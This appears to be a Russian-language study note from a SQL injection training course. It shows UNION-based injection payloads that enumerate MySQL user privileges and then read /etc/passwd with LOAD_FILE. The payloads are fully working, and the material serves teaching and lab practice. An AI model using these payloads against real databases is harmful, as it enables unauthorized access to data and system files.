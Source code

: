 
#### Привилегии пользователя

Теперь, когда мы знаем своего пользователя, мы можем начать поиск, какие привилегии у нас есть с этим пользователем. Прежде всего, мы можем проверить, есть ли у нас привилегии  super admin с помощью следующего запроса:
```sql
SELECT super_priv FROM mysql.user
```
Опять же, мы можем использовать следующую полезную нагрузку с приведенным выше запросом:
```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```
Если у нас было много пользователей в СУБД, мы можем добавить привилегии для отображения только для нашего текущего пользователя:`WHERE user="root"``root`
```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```
![[Pasted image 20250920204850.png]]

Запрос возвращает `Y`, что означает `YES`, указывающее на привилегии суперпользователя. Мы также можем выгрузить другие имеющиеся у нас привилегии непосредственно из схемы с помощью следующего запроса:
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```
Здесь мы можем добавить только наши текущие привилегии пользователя. Наша полезная нагрузка будет следующей:`WHERE grantee="'root'@'localhost'"``root`
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

И мы видим все возможные привилегии, предоставленные нашему текущему пользователю:
![[Pasted image 20250920205002.png]]

Мы видим, что привилегия `FILE` указана для нашего пользователя, что позволяет нам читать файлы и, возможно, даже записывать файлы. Таким образом, мы можем продолжить попытки чтения файлов.

---

## LOAD_FILE

Теперь, когда мы знаем, что у нас достаточно привилегий для чтения локальных системных файлов, давайте сделаем это с помощью этой функции. Функция [LOAD_FILE()](https://mariadb.com/kb/en/load_file/) может быть использована в MariaDB / MySQL для чтения данных из файлов. Функция принимает только один аргумент, который является именем файла. Следующий запрос является примером того, как прочитать файл:`LOAD_FILE()``/etc/passwd`

Код: sql

```sql
SELECT LOAD_FILE('/etc/passwd');
```

Примечание: Мы сможем прочитать файл только в том случае, если пользователь ОС, использующий MySQL, имеет достаточные привилегии для его чтения.

